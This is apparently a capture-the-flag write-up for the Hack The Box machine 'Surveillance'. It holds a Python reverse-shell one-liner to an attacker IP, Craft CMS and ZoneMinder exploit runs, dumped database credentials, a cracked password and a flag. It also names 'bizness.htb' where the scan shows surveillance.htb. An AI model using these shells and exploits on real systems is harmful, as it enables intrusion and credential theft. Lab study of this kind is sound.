










*Nmap scan*:

```shell
$ cat nmap_allports.txt        
# Nmap 7.94SVN scan initiated Tue Feb  6 12:30:20 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.245
Nmap scan report for 10.10.11.245
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Tue Feb  6 12:31:48 2024 as: nmap -p22,80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.245
Nmap scan report for 10.10.11.245
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webapp on port 80 does a redirect to "bizness.htb" domain; it is added to the hosts file.



Is powered by "Craft CMS".


A recent RCE about Craft CMS is discovered.



A PoC for RCE is available at: [https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce). Let's try. Not working. Another exploit is available at: [https://github.com/zaenhaxor/CVE-2023-41892](https://github.com/zaenhaxor/CVE-2023-41892x. It works.



From enviromnent variables, the database connection parameters are identified.



Such credentials do not allow access in SSH. The previous POC also does not allow for a shell. A new POC is identified: [https://github.com/Faelian/CraftCMS_CVE-2023-41892](https://github.com/Faelian/CraftCMS_CVE-2023-41892). It works.



It's time to get a reverse shell.

```shell
[...]
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 fe80::c3ec:7179:cefe:9112  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.245] 37274
www-data@surveillance:~/html/craft/web$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Obtained a shell with www-data user. Within the webapp webroot, multiple ".env" files are identified.

```shell
$ ls -la /var/www/html/craft/
total 320
drwxr-xr-x  8 www-data www-data   4096 Oct 21 18:32 .
drwxr-xr-x  3 root     root       4096 Oct 21 17:54 ..
-rw-r--r--  1 www-data www-data    836 Oct 21 18:32 .env
-rw-r--r--  1 www-data www-data    678 May 23  2023 .env.example.dev
-rw-r--r--  1 www-data www-data    688 May 23  2023 .env.example.production
-rw-r--r--  1 www-data www-data    684 May 23  2023 .env.example.staging
-rw-r--r--  1 www-data www-data     31 May 23  2023 .gitignore
-rw-r--r--  1 www-data www-data    529 May 23  2023 bootstrap.php
-rw-r--r--  1 www-data www-data    622 Jun 13  2023 composer.json
-rw-r--r--  1 www-data www-data 261350 Jun 13  2023 composer.lock
drwxr-xr-x  4 www-data www-data   4096 Oct 11 17:57 config
-rwxr-xr-x  1 www-data www-data    309 May 23  2023 craft
drwxrwxr-x  2 www-data www-data   4096 Oct 21 18:26 migrations
drwxr-xr-x  6 www-data www-data   4096 Oct 11 20:12 storage
drwxr-xr-x  3 www-data www-data   4096 Oct 17 15:24 templates
drwxr-xr-x 42 www-data www-data   4096 Jun 13  2023 vendor
drwxr-xr-x  8 www-data www-data   4096 Feb  6 13:30 web
```

```shell
$ cat /var/www/html/craft/.env* | grep -v -e '#'

CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

CRAFT_ENVIRONMENT=production

CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/

CRAFT_APP_ID=

CRAFT_ENVIRONMENT=dev

CRAFT_SECURITY_KEY=

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=
CRAFT_DB_SCHEMA=public
CRAFT_DB_TABLE_PREFIX=

DEV_MODE=true
ALLOW_ADMIN_CHANGES=true
DISALLOW_ROBOTS=true

CRAFT_APP_ID=

CRAFT_ENVIRONMENT=production

CRAFT_SECURITY_KEY=

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=
CRAFT_DB_SCHEMA=public
CRAFT_DB_TABLE_PREFIX=

DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

CRAFT_APP_ID=

CRAFT_ENVIRONMENT=staging

CRAFT_SECURITY_KEY=

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=
CRAFT_DB_SCHEMA=public
CRAFT_DB_TABLE_PREFIX=

DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=true
```

As seen before, the database connection parameters are present. A MySQL database is present listening only on localhost.

```shell
ss -ntlp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                                                 
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*                                                           
LISTEN 0      511        127.0.0.1:8080      0.0.0.0:*    users:(("nginx",pid=1129,fd=9),("nginx",pid=1128,fd=9))
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=1129,fd=8),("nginx",pid=1128,fd=8))
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*                                                           
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                                           
LISTEN 0      128             [::]:22           [::]:*
```

The database is accessed to see its contents.

```shell
www-data@surveillance:~/html/craft/web$ mysql -h 127.0.0.1 -u craftuser -pCraftCMSPassword2023! -D craftdb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 135
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [craftdb]> show tables;
show tables;
+----------------------------+
| Tables_in_craftdb          |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| content                    |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elements                   |
| elements_sites             |
| entries                    |
| entrytypes                 |
| fieldgroups                |
| fieldlayoutfields          |
| fieldlayouts               |
| fieldlayouttabs            |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| matrixblocks               |
| matrixblocks_owners        |
| matrixblocktypes           |
| migrations                 |
| plugins                    |
| projectconfig              |
| queue                      |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| sections                   |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| widgets                    |
+----------------------------+
63 rows in set (0.001 sec)

MariaDB [craftdb]> select * from users;
select * from users;
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | active | pending | locked | suspended | admin | username | fullName  | firstName | lastName | email                  | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |      1 |       0 |      0 |         0 |     1 | admin    | Matthew B | Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe | 2023-10-17 20:42:03 | NULL               | NULL                    |              NULL | 2023-10-17 20:38:18  | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2023-10-17 20:38:29    | 2023-10-11 17:57:16 | 2023-10-17 20:42:03 |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
1 row in set (0.001 sec)
```

The admin user "Matthew" is identified. His password hash is present. An attempt is made to crack it. You can't crack the hash. It goes on.

Within the home directory, "zoneminder" is identified.

```shell
$ ls -l /home
total 8
drwxrwx--- 3 matthew    matthew    4096 Nov  9 12:45 matthew
drwxr-x--- 2 zoneminder zoneminder 4096 Nov  9 12:46 zoneminder
```

"zoneminder" is also one of the users.

```shell
$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
matthew:x:1000:1000:,,,:/home/matthew:/bin/bash
zoneminder:x:1001:1001:,,,:/home/zoneminder:/bin/bash
```

A check is made on the version of ZoneMinder installed.

```shell
$ dpkg -l | grep -i zone
ii  tzdata                                2023c-0ubuntu0.22.04.2                  all          time zone and daylight-saving time data
hi  zoneminder                            1.36.32+dfsg1-1                         amd64        video camera security and surveillance solution
```

Thanks to an online search, it turns out that ZoneMinder 1.36.32 is vulnerable to unauthenticated  RCE.



An exploit is avallabile at: [https://github.com/heapbytes/CVE-2023-26035](https://github.com/heapbytes/CVE-2023-26035).

It is first necessary, however, to verify on which port ZoneMinder is listening.

```shell
www-data@surveillance:~/html/craft/web$ ss -ntlp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                                                 
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*                                                           
LISTEN 0      511        127.0.0.1:8080      0.0.0.0:*    users:(("nginx",pid=1129,fd=9),("nginx",pid=1128,fd=9))
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=1129,fd=8),("nginx",pid=1128,fd=8))
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*                                                           
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                                           
LISTEN 0      128             [::]:22           [::]:*                                                           
www-data@surveillance:~/html/craft/web$ curl 127.0.0.1:8080 | grep -i zoneminder
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0      <a id="getNavBrandHTML" class="dropdown" data-toggle="dropdown" href="#">ZoneMinder</a>
<li><a class="dropdown-item" href="https://zoneminder.com/" target="_blank">ZoneMinder</a></li>
<li><a class="dropdown-item" href="https://zoneminder.readthedocs.io/en/stable/" target="_blank">Documentation</a></li>
<li><a class="dropdown-item" href="https://forums.zoneminder.com/" target="_blank">Support</a></li>
        <h1><i class="material-icons md-36">account_circle</i> ZoneMinder Login</h1>
100  7716    0  7716    0     0  17784      0 --:--:-- --:--:-- --:--:-- 17861
```

ZoneMinder is listening on port 8080 on localhost. The exploit is transferred to the target machine. All that is left is to execute the exploit.

```shell
www-data@surveillance:~/html/craft/web$ python3 /tmp/exploit.py -t http://127.0.0.1:8080 -ip 10.10.14.6 -p 4444
Traceback (most recent call last):
  File "/tmp/exploit.py", line 2, in <module>
    import requests
ModuleNotFoundError: No module named 'requests'
```

The "requests" library is missing. 

After hours of being stuck, I found the right path. In the folder "/var/www/html/craft/storage" a strange file was located.

```shell
www-data@surveillance:~/html/craft$ ls -l
total 292
-rw-r--r--  1 www-data www-data    529 May 23  2023 bootstrap.php
-rw-r--r--  1 www-data www-data    622 Jun 13  2023 composer.json
-rw-r--r--  1 www-data www-data 261350 Jun 13  2023 composer.lock
drwxr-xr-x  4 www-data www-data   4096 Oct 11 17:57 config
-rwxr-xr-x  1 www-data www-data    309 May 23  2023 craft
drwxrwxr-x  2 www-data www-data   4096 Oct 21 18:26 migrations
drwxr-xr-x  6 www-data www-data   4096 Oct 11 20:12 storage
drwxr-xr-x  3 www-data www-data   4096 Oct 17 15:24 templates
drwxr-xr-x 42 www-data www-data   4096 Jun 13  2023 vendor
drwxr-xr-x  8 www-data www-data   4096 Feb  7 15:51 web
www-data@surveillance:~/html/craft$ cd storage
www-data@surveillance:~/html/craft/storage$ find . -type f
[...]
./logs/phperrors.log
./logs/web-2024-02-07.log
./backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip
./.gitignore
```

The "surveillance--2023-10-17-202801--v4.4.14.sql.zip" file sounds promising. It is transferred to the attacking machine. After unzipping it, SQL dump is analyzed. An additional hash of matthew's password is identified.



This time cracking worked.



Password is "starcraft122490". One tries to log in in SSH.



I am IN.

***user.txt***: 7b7ea143bbbd3dce372acf3141257797



At this point, by portforwarding with SSH you can again run the exploit for the version of Zoneminder identified in the previous steps.

About portforwarding:

```shell
$ ssh -L 9090:127.0.0.1:8080 matthew@10.10.11.245
matthew@10.10.11.245's password:
[...]
```

With such a configuration, traffic sent on port 9090 on the attacking machine will be redirected to port 8080 on the victim machine's localhost network.  Now it is time to activate a netcat listener and run the exploit.

```shell
$ python3 exploit.py -t http://127.0.0.1:9090 -ip 10.10.14.6 -p 4444
[>] fetching csrt token
[>] recieved the token: key:b73e6c20e3a4ca169a23cc229949ee1a75709f80,1707389554
[>] executing...
[>] sending payload..
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::5c47:1a5e:ca67:3309  prefixlen 64  scopeid 0x20<link>
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.245] 44306
bash: cannot set terminal process group (1113): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$
```

A shell with user "zoneminder" is correctly received. It is checked whether such a user is able to execute commands with "sudo".

```shell
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

Apparently, the "zoneminder" user is able to execute some Perl scripts found in the "/usr/bin" folder. Such scripts are editable only by root.

```shell
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -la /usr/bin/zm[a-zA-Z]*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
-rwxr-xr-x 1 root root 45421 Nov 23  2022 /usr/bin/zmupdate.pl
-rwxr-xr-x 1 root root  8205 Nov 23  2022 /usr/bin/zmvideo.pl
-rwxr-xr-x 1 root root  7022 Nov 23  2022 /usr/bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23  2022 /usr/bin/zmx10.pl
```

I stay stuck on that part.
